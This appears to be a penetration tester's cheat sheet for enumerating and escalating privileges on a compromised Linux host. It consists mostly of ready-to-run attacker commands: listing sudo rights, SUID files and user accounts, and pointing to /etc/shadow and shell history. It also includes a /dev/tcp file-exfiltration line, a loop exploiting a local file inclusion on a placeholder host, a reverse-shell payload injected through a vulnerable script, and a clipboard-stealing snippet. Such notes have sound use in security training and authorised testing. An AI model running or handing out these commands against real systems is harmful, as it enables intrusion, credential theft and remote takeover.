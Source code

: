 # Enumeration
## Commands
```bash
# SUDO CONFIG
sudo -l

# CURRENT USER INFO
id || (whoami && groups) 2>/dev/null
## Current user PGP keys
gpg --list-keys 2>/dev/null


# ALL USERS
## List superusers
awk -F: '($3 == "0") {print}' /etc/passwd

## List all users and their groups
for i in $(cut -d":" -f1 /etc/passwd 2>/dev/null);do id $i;done 2>/dev/null | sort

## Logged in users
w


# SYSTEM INFO
## Running processes
ps aux

## Environment variables
(env || set) 2>/dev/null

## Network topology
cat /proc/net/fib_trie

## Domain name
hostname

## OS info
/etc/os-release


# FILES AND DIRECTORIES
## Sort files by date
ls -ltrh

## Writeable folders
find / -writable -type d 2>/dev/null

## Find SUID files
find / -perm -4000 2>/dev/null


# NETWORK
## List open ports
(netstat -punta || ss --ntpu)


# MISC
## Human readable JSON data (jq)
cat <json_file> | jq

## Download file from shell session
cat <file> /dev/tcp/<ip>/<port>

## PING SWEEP - If one suspects that there are other machines on the network --- Assuming that current machine is in a VM or a container
for i in {1..254}; do (ping -c 1 10.10.10.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```

## Directories / Files
```bash
~/
/tmp

/dev/shm

/opt

/var
/var/log
/var/www/html

/usr/sbin

/etc/apache2 
/etc/httpd
/etc/nginx

/etc/hosts
/etc/issue
/etc/motd
/etc/passwd 
/etc/group 
/etc/resolv.conf
/etc/shadow

/home/USERNAME/.bash_history
/home/USERNAME/.profile

/proc/sched_debug
/proc/net/fib_trie
/proc/version
/proc/self/environ
/proc/self/cmdline
```

### Process file (PID) brute-force
The file “/proc//cmdline” serves as a repository for the command-line arguments that have been provided to a specific process identified by its (PID). 
This allows for enumerating all the running processes based on their PID.     
This could be well used for exploiting an LFI.

```bash
# Example script to exploit LFI
for i in {0..999}; do
    pid=$i
    url="http://remote.com/?page=../../../..//proc/$pid/cmdline"
    curl -s "$url" | tee -a log.txt
    echo ""
done
```

### Directory / file copy (symlink)
If there's a directory or a file that is being copied *(by some program, perhaps cron)*, one can either create a symlink or a direct spoof of the actual file so, that the copied item will be spoofed and contain the data the attacker wants.


# Clipboard
Look for anything interesting in the clipboard
```bash
if [ `which xclip 2>/dev/null` ]; then
    echo "Clipboard: "`xclip -o -selection clipboard 2>/dev/null`
    echo "Highlighted text: "`xclip -o 2>/dev/null`
  elif [ `which xsel 2>/dev/null` ]; then
    echo "Clipboard: "`xsel -ob 2>/dev/null`
    echo "Highlighted text: "`xsel -o 2>/dev/null`
  else echo "Not found xsel and xclip"
  fi
```

# Interesting groups
## Disk group
A user who is in the disk group, will probably have access to info on a given disk.

### debugfs
`debugfs` let's you debug a file system if you can read the device.       
With this, one can read files owned by a given user


# Bash file command execution
If a file executes a variable, one might be able to write payload to it.
## Example
**(program.sh)**
```bash
#!/bin/bash

echo -e "Input:\t"
read myvar

/bin/bash -c $myvar
```
The attacker can supply the following payload:
```
./program.sh '>& /dev/tcp/<IP>/<PORT> 0>&1'
```

# Services
[gtfobins help](https://gtfobins.github.io/gtfobins/systemctl/)

A service is defined by a `.service` file. `systemctl` is used to link it to `systemd` and then used again to start the service.      
What the service does is defined by the `.service` file.     

If a user has access to the `systemctl` binary they can make a service which can read file or even spawn a reverse shell.


# Raw image file conversion to actual image
Raw image data can be converted to an actual image to reveal its content.
## Gimp
1. Select the file and its type (Raw image data)
2. Select resolution (`cat /sys/class/graphics/fb0/virtual_size` if unknown)
3. Edit image types
4. Export as png